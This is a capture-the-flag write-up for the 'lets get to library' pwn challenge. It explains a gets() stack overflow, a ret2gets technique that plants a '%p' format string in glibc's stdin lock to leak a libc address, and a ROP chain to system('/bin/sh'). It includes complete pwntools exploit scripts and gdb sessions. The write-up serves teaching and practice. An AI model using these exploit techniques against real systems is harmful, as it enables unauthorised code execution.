






+++
draft = false
title = 'lets get to library'
+++

# TL;DR

fun challenge where we get control over `rsp` via a buffer overflow (`gets`), leak `libc` addresses using `ret2gets`, and then build a new rop chain to call `system("/bin/sh")`.

# Analysis

well, let's skip the long intro. the author kindly provided a `Dockerfile`, `flag.txt`, and `handout.7z`. first thing I did was unpack the archive with `7z e ./handout.7z` and found 3 files inside:
- `letsgettolibrary`
- `libc.so.6`
- `ld-2.39.so`

pretty standard stuff. next, without even looking at the files, I ran `pwninit` to patch everything (only now checking `letsgettolibrary` did I notice that patching wasn't even needed)
and opened `letsgettolibrary_patched` in binary ninja.

but before reversing it, I obviously checked which mitigations were enabled:



alright, so only `NX` and `Partial RELRO` are present (`nx` makes the stack non-executable, `partial relro` marks a few sections read-only, but the got is still writable).

# Reverse

when opening it in binja, I noticed only 2 small functions:

```c
00401146  int64_t greet_reader()
00401160    return printf(format: "Welcome to the library, Dear reader")

00401161  int32_t main(int32_t argc, char** argv, char** envp)
00401178    setbuf(fp: stdin, buf: nullptr)
0040118c    setbuf(fp: stdout, buf: nullptr)
004011a0    printf(format: "Enter your name to check out a book: ")
004011b1    char buf[0x80]
004011b1    gets(&buf)
004011b6    greet_reader()
004011c1    return 0
```

this is what the stack looks like in `main`:

```
entry -0x88  char buf[0x80] {...}
entry  -0x8  int64_t __saved_rbp
entry        void* const __return_addr
```

everything is pretty straightforward here: a classic buffer overflow via `gets()`, but what really caught my attention was using `printf` instead of `puts` to print a static string...
maybe we can use this to leak addresses if needed.

at first I thought this was just a simple rop challenge, but after running `ropper`, I found zero useful gadgets in `letsgettolibrary`.

# Testing

to understand what we can even do here, we first need to see the state of the stack and registers when control transfers to our payload. I wrote a quick script for that:

```py
from pwn import *

context.arch='amd64'
context.terminal = ['zellij', 'action', 'new-pane', '-d', 'right', '--']
# context.log_level='debug'

# p = process('./letsgettolibrary_patched')
p = gdb.debug('./letsgettolibrary_patched', aslr=True, gdbscript='b *main+96')

p.readuntil(b'Enter your name to check out a book: ')

PRINTF = 0x00401040
GETS   = 0x00401050

payload =  b'A'*0x80 # padding
payload += p64(0)    # rbp

payload += p64(GETS) # temp

p.writeline(payload)
p.interactive()
```

> if you don't use `zellij`, change `context.terminal` to whatever you use (or just remove it, should work fine either way)

after running this script, here is what I got:



we only care about argument-passing registers, in our case `rdi`. as you can see in the screenshot, it holds a stack address. in theory, if we call `gets` (which is what the script does),
we can overwrite the stack again, but I don't see any need for that right now.

as you might recall from the [System V Calling Conventions](https://wiki.osdev.org/Calling_Conventions), registers `rax`, `rdi`, `rsi`, `rdx`, `rcx`, `r8`, `r9`, `r10`, and `r11` are scratch registers and not preserved across function calls.
this means calling certain functions might allow us to leave values we want in these registers as side effects.

to test this theory, I updated the script:

```py
from pwn import *

context.arch='amd64'
context.terminal = ['zellij', 'action', 'new-pane', '-d', 'right', '--']
# context.log_level='debug'

# p = process('./letsgettolibrary_patched')
p = gdb.debug('./letsgettolibrary_patched', aslr=True, gdbscript='''
            b *main+96
            b *0x00401040
            b *0x00401050
        ''')

p.readuntil(b'Enter your name to check out a book: ')

PRINTF = 0x00401040
GETS   = 0x00401050

payload =  b'A'*0x80 # pad
payload += p64(0) # rbp

payload += p64(GETS) # test gets
payload += p64(GETS) # test gets again
payload += p64(GETS) # test gets yet again

payload += p64(PRINTF) # test printf
payload += p64(PRINTF) # you've got the idea
payload += p64(PRINTF)

p.writeline(payload)
p.interactive()
```

## GETS

I ran the script and noted down the register values. let's start with `gets`:

the first call went something like `gets(something_on_stack)`, and afterwards it left `0x00007fc3d4a05720` in `rdi` - which definitely isn't a stack address!
I verified this using `info proc map` and realized that this address belongs to a libc memory mapping:

```
0x00007fc3d4800000 0x00007fc3d4828000 0x28000            0x0                r--p  /home/jzrn_/PWN/CTF/kbxac/lets_get_to_library/libc.so.6
0x00007fc3d4828000 0x00007fc3d49b0000 0x188000           0x28000            r-xp  /home/jzrn_/PWN/CTF/kbxac/lets_get_to_library/libc.so.6
0x00007fc3d49b0000 0x00007fc3d49ff000 0x4f000            0x1b0000           r--p  /home/jzrn_/PWN/CTF/kbxac/lets_get_to_library/libc.so.6
0x00007fc3d49ff000 0x00007fc3d4a03000 0x4000             0x1fe000           r--p  /home/jzrn_/PWN/CTF/kbxac/lets_get_to_library/libc.so.6
0x00007fc3d4a03000 0x00007fc3d4a05000 0x2000             0x202000           rw-p  /home/jzrn_/PWN/CTF/kbxac/lets_get_to_library/libc.so.6
0x00007fc3d4a05000 0x00007fc3d4a12000 0xd000             0x0                rw-p
0x00007fc3d4b7f000 0x00007fc3d4b84000 0x5000             0x0                rw-p
```

after some tinkering, I figured out it points to the `stdin` lock:

```c
(remote) gef➤  x/10gx 0x00007fc3d4a05720
0x7fc3d4a05720 <_IO_stdfile_0_lock>:    0x0000000000000000      0x0000000000000000
0x7fc3d4a05730 <__pthread_force_elision>:       0x0000000000000000      0x0000000000000000
0x7fc3d4a05740 <__attr_list_lock>:      0x0000000000000000      0x0000000000000000
0x7fc3d4a05750 <init_sigcancel.0>:      0x0000000000000000      0x0000000000000000
0x7fc3d4a05760 <__nptl_threads_events>: 0x0000000000000000      0x0000000000000000
```

which honestly makes sense since `gets` works with `stdin`. I assume the lock pointer ends up in `rdi` when `gets` unlocks it at the end, but that's just a guess.

the other two `gets` calls returned the exact same value in `rdi`, so we can safely assume it will consistently return this address.

## PRINTF

with `printf`, things were a bit different: it consistently returned a stack pointer in `rdi`, but slightly higher up each time.

here are the results from each call:
1. in: `0x00007fc3d4a05720` (that `gets` artifact), out: `0x00007ffc0a7af090` (points to another address on stack)
2. in: `0x00007ffc0a7af090`, out: `0x00007ffc0a7af098` (also point to another stack address)
3. in: `0x00007ffc0a7af098`, out: `0x00007ffc0a7af0a0` (yeah, same)

and that's when an idea hit me: what if we call `gets` once to set `rdi` to that fixed libc lock address, run it a second time to write something like `%p` there, invoke `printf` so it treats that string
as a format specifier and leaks a `libc` pointer, and finally jump back to `main` with our leak in hand to deliver stage 2 and call `system("/bin/sh")`?

if this works, it suddenly makes total sense why the author used `printf` instead of `puts`.

there's just one catch: we are writing directly into the `stdin lock`, meaning we must carefully craft the payload so the next `gets` doesn't deadlock the thread.

[here](https://elixir.bootlin.com/glibc/glibc-2.39/source/sysdeps/nptl/stdio-lock.h) I found the definition of this lock struct and its macros:

```c
typedef struct { int lock; int cnt; void *owner; } _IO_lock_t;
#define _IO_lock_t_defined 1

#define _IO_lock_initializer { LLL_LOCK_INITIALIZER, 0, NULL }

#define _IO_lock_init(_name) \
  ((void) ((_name) = (_IO_lock_t) _IO_lock_initializer))

#define _IO_lock_fini(_name) \
  ((void) 0)

#define _IO_lock_lock(_name) \
  do {                                                              \
    void *__self = THREAD_SELF;                                     \
    if (SINGLE_THREAD_P && (_name).owner == NULL)                   \
      {                                                             \
        (_name).lock = LLL_LOCK_INITIALIZER_LOCKED;                 \
        (_name).owner = __self;                                     \
      }                                                             \
    else if ((_name).owner != __self)                               \
      {                                                             \
        lll_lock ((_name).lock, LLL_PRIVATE);                       \
        (_name).owner = __self;                                     \
      }                                                             \
    else                                                            \
      ++(_name).cnt;                                                \
  } while (0)

#define _IO_lock_trylock(_name) \
  ({                                                                \
    int __result = 0;                                               \
    void *__self = THREAD_SELF;                                     \
    if ((_name).owner != __self)                                    \
      {                                                             \
        if (lll_trylock ((_name).lock) == 0)                        \
          (_name).owner = __self;                                   \
        else                                                        \
          __result = EBUSY;                                         \
      }                                                             \
    else                                                            \
      ++(_name).cnt;                                                \
    __result;                                                       \
  })

#define _IO_lock_unlock(_name) \
  do {                                                              \
    if (SINGLE_THREAD_P && (_name).cnt == 0)                        \
      {                                                             \
        (_name).owner = NULL;                                       \
        (_name).lock = 0;                                           \
      }                                                             \
    else if ((_name).cnt == 0)                                      \
      {                                                             \
        (_name).owner = NULL;                                       \
        lll_unlock ((_name).lock, LLL_PRIVATE);                     \
      }                                                             \
    else                                                            \
      --(_name).cnt;                                                \
  } while (0)
```

as we can see, it consists of 3 fields and takes up 16 bytes:



`gets` acquires this lock at the start via `_IO_lock_lock` (`_IO_acquire_lock (stdin)` to be exact, but it's the same thing), and releases it at the end via `_IO_lock_unlock` (`_IO_release_lock`).

we're going to write directly into this lock structure (since it's the only address we can reliably load into `rdi` via `gets`), so we need to plan the payload size carefully to avoid hanging the process.
since we're also using `gets` to write into the lock, our payload needs to survive the subsequent unlock routine.

let's start with `unlock`: looking at the code above, if `cnt` is 0, both `owner` and `lock` get cleared, which would destroy our string before `printf` can use it. to keep our string intact, `cnt` must be non-zero,
meaning we need to overwrite at least one byte of the `cnt` field.

now regarding `lock`: to prevent the program from deadlocking, we just need to leave `owner` untouched (it must be either `NULL` or `__self`, and leaving it alone is the easiest option)

this leaves us with a strict payload length: between 5 and 7 bytes. minimum 5 bytes so we overwrite at least the first byte of `cnt`, and maximum 7 bytes because `gets` terminates input with a null byte `\0`
(and we don't want that null byte spilling into `owner`)

if done correctly, during the unlock in `gets`, the fifth byte will decrement (for example, `'A'` becomes `'@'`), and on the subsequent `gets` lock routine,
it will simply increment the fifth byte back because `owner` remained unchanged.

now we can start writing the exploit.

# Exploit

so the plan looks like this:
1. `gets` to place the `lock` address into `rdi`
2. `gets` to write `%p.AA` (5 bytes) into the lock
3. `retn` to align the stack
4. `printf` to leak the address currently in `rsi`
5. return to `main` to overflow the stack a second time
6. write a simple rop chain using resolved `libc` addresses
7. call `system("/bin/sh")`

wait, where does the libc leak in `rsi` even come from?

well, after calling `gets`, `rsi` holds an address pointing somewhere in the middle of `_IO_2_1_stdin_` (specifically `<_IO_2_1_stdin_+131>`).
I found this experimentally and have no clue what it's doing there, but honestly the reason doesn't matter much. what matters is that it's reliably there,
and a single `%p` (plus 3 padding bytes to hit the non-zero `cnt` branch on unlock) is all we need to leak `libc`.

I started with a simple prototype:

```py
from pwn import *

context.arch='amd64'
context.terminal = ['zellij', 'action', 'new-pane', '-d', 'right', '--']
# context.log_level='debug'

# p = process('./letsgettolibrary_patched')
p = gdb.debug('./letsgettolibrary_patched', aslr=True, gdbscript='''
            b *main+96
            b *0x00401040
            b *0x00401050
        ''')

p.readuntil(b'Enter your name to check out a book: ')

PRINTF = 0x00401040
GETS   = 0x00401050

payload =  b'A'*0x80 # pad
payload += p64(0) # rbp

payload += p64(GETS)
payload += p64(GETS)
payload += p64(0x00000000004011cc) # retn (to align stack)
payload += p64(PRINTF)
payload += p64(0x00401161) # load next stage (return to main)

p.writeline(payload)
p.writeline()
p.writeline(b'%p.AA')

p.readuntil(b'reader') # last word in "Welcome to the library, Dear reader", good marker to find our leak
leak = int(p.readuntil(b'.')[:-1], 16)

print(hex(leak))
p.interactive()
```

I ran this script and hit `c` in gdb until the leaked address showed up. from there, calculating the rest was straightforward:

```c
(remote) gef➤  set $LEAK = 0x7f3fe4003963
(remote) gef➤  p &system
$2 = (int (*)(const char *)) 0x7f3fe3e58740 <__libc_system>
(remote) gef➤  p $LEAK - 0x7f3fe3e58740
$3 = 0x1ab223
```

there's our `system` address. now we just need a `pop rdi; ret` gadget and the `"/bin/sh\x00"` string.

I decided to look them up directly in binja and calculate offsets relative to `system`:



> I use a plugin that lets you search rop gadgets right inside the tool

as you can see, `system` is at `0x00458740`, and the first `pop rdi; ret` gadget is at `0x005ae710`. that gives us an offset of `0x005ae710 - 0x00458740 = 0x155fd0`.

we can easily verify this offset in gdb:

```c
(remote) gef➤  p 0x7f3fe3e58740 + 0x155fd0
$5 = 0x7f3fe3fae710
(remote) gef➤  x 0x7f3fe3fae710
0x7f3fe3fae710 <__subtf3+2256>: 0x0f66c35f
```

the first two bytes at this address are `\x5f\xc3`, which corresponds to `pop rdi; ret` (oh my science, i'm starting to memorize opcodes...)

now we do the same thing for `"/bin/sh"`:



calculate the offset: `0x005cb42f - 0x00458740 = 0x172cef`.

and check it:

```c
(remote) gef➤  p 0x7f3fe3e58740 + 0x172cef
$7 = 0x7f3fe3fcb42f
(remote) gef➤  x/s 0x7f3fe3fcb42f
0x7f3fe3fcb42f: "/bin/sh"
```

that's it, now we have all the offsets. all that's left is putting together the final script:

```py
from pwn import *

context.arch='amd64'
context.terminal = ['zellij', 'action', 'new-pane', '-d', 'right', '--']
# context.log_level='debug'

p = process('./letsgettolibrary_patched')
# p = gdb.debug('./letsgettolibrary_patched', aslr=True, gdbscript='''
#             b *main+96
#             b *0x00401040
#             b *0x00401050
#         ''')

p.readuntil(b'Enter your name to check out a book: ')

PRINTF = 0x00401040
GETS   = 0x00401050

payload =  b'A'*0x80 # pad
payload += p64(0) # rbp

payload += p64(GETS)
payload += p64(GETS)
payload += p64(0x00000000004011cc) # retn (to align stack)
payload += p64(PRINTF)
payload += p64(0x00401161) # load next stage (return to main)

p.writeline(payload)
p.writeline()
p.writeline(b'%p.AA')

p.readuntil(b'reader')
leak    = int(p.readuntil(b'.')[:-1], 16)
system  = leak - 0x1ab223
pop_rdi = system + 0x155fd0
bin_sh  = system + 0x172cef

payload =  b'A'*0x80 # pad
payload += p64(0) # rbp

payload += p64(pop_rdi)
payload += p64(bin_sh)
payload += p64(system)

p.writeline(payload)
p.interactive()
```


